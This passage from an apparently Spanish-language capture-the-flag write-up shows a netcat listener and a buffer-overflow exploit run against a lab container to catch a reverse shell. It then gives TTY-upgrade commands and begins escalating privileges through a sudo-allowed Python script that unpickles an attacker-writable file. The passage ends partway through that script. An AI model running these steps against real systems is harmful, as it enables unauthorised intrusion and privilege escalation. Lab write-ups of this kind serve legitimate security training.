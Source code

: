 Nos ponemos en escucha por el puetro 443:

```python
nc -nlvp 443
```

Y ejecutamos el exploit:

```python
python3 remote_bof.py 172.17.0.2 9000
```

![image](https://github.com/user-attachments/assets/332bb708-acf6-4ac0-83a2-1105f89734a1)

Y nos llega la shell.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### maci

Somos el usuario www-data. Ejecutamos `sudo -l` para ver nuestros privilegios de sudo:

![image](https://github.com/user-attachments/assets/22e8fbf0-a946-446b-8751-fa78a72a016c)

Podemos ejecutar como el usuario maci, sin usar nuestra contraseña, el script `/home/maci/.time_seri/time.py` con `/bin/python3`. Tenemos capacidad de lectura del script:

```python
import pickle
import os

file_path = "/opt/data.pk1"
config_file_path = "/home/maci/.time_seri/time.conf"

def load_pickle_file(file_path):
    """Carga un archivo pickle y devuelve su contenido."""
    if not os.path.exists(file_path):
        print(f"El archivo {file_path} no se encontró.")
        return None
    
    try:
        with open(file_path, 'rb') as f:
            data = pickle.load(f)
            return data
    except PermissionError:
        print("No tienes permiso para leer el archivo.")
    except pickle.UnpicklingError:
        print("Error al deserializar el archivo: el archivo puede estar corrupto o no es un archivo pickle válido.")
    except EOFError:
        print("El archivo está vacío o truncado.")
    except Exception as e:
```